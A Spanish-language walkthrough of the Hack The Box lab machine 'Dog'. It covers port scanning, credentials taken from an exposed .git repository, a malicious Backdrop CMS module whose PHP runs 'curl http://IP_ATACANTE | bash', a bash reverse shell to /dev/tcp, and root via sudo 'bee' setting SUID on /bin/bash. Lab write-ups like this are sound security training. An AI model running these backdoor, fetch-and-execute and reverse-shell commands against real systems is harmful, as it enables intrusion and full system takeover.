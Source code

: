 HTB “Dog” – Walkthrough
Autor: Ju4nC
Fecha: 2025-07-14
Plataforma: Hack The Box
Tipo: Boot-to-Root
Dificultad: Fácil

Índice
Reconocimiento

Enumeración

Explotación inicial

Escalada de privilegios

Captura de flags

Herramientas usadas

Conclusiones

Reconocimiento
IP objetivo: 10.10.11.58

Escaneo de puertos
```bash
nmap -p- -n -Pn --min-rate 5000 10.10.11.58 -oG allPorts
```
Se detectan los puertos abiertos y se guarda el resultado en allPorts. Luego, usando ExtractPorts, copiamos los puertos abiertos al portapapeles.

```bash
nmap -p22,80 -sCV 10.10.11.58 -oN targeted
```
Resultado:

Puerto 22 → SSH

Puerto 80 → HTTP (sitio web)

Presencia de un repositorio .git

Enumeración
Clonamos el repositorio .git expuesto:

```bash
python3 GitHack.py http://10.10.11.58/.git/
cd 10.10.11.58
```
En los archivos descargados, settings.php contiene una contraseña. Además:

```bash
grep -r ".htb"
```
Nos muestra un correo vinculado al sitio, útil para autenticarnos en el login.

Explotación inicial
Dentro del sitio, accedemos a la opción de instalar un nuevo módulo. Podemos subir un .tar.gz.

Crear módulo malicioso:
Descargamos un ejemplo de módulo desde
https://backdropcms.org/project/examples

Editamos el archivo page_example.module:

```php
<?php system("curl http://IP_ATACANTE | bash"); ?>
```
En page_example.info, añadimos:

type = module
Empaquetamos:

```bash
tar -zcvf page_example.tar.gz page_example/
```
Servidor y shell reversa:
Creamos un archivo index.html con el payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/IP_ATACANTE/443 0>&1
```
Levantamos servicios:
```bash
python3 -m http.server 80
nc -nlvp 443
```
Al subir el módulo, se ejecuta el payload y conseguimos acceso al sistema con una shell reversa.

Escalada de privilegios
Enumeramos usuarios en el sistema. Reutilizamos la contraseña obtenida del .git y accedemos como un usuario válido. Luego:

```bash
cat user.txt
```
Comprobamos permisos sudo:

```bash
sudo -l
```
Tenemos acceso a bee. Ejecutamos:
```bash
sudo bee --root=/var/www/html eval "system('chmod u+s /bin/bash');"
bash -p
```
Obtenemos acceso como root.

Captura de flags
```bash
cd /root
cat root.txt
```
Herramientas usadas
nmap

ExtractPorts

GitHack.py

Backdrop CMS

curl, nc, bash

python3 -m http.server

Conclusiones
Revisar si .git/ está expuesto puede revelar credenciales.

Backdrop CMS permite cargas maliciosas si no se valida el contenido.

Los permisos sudo deben auditarse, especialmente si permiten ejecución de binarios arbitrarios.

Es importante combinar enumeración activa con análisis manual de archivos sensibles.





